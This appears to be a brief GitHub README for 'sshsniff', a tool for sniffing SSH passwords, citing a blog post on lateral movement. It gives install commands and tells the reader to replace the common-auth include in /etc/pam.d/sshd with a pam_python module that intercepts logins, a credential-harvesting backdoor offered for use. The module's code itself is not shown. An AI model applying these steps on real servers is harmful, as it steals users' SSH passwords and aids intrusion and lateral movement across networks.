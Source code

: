 # sshsniff
SSH password sniffing

Forked from https://craighays.com/gaining-lateral-movement-with-ssh-password-sniffing/

<apt-get install python libpam-python

Replace in /etc/pam.d/sshd

#@include common-auth

auth       requisite     pam_python.so common-auth.py
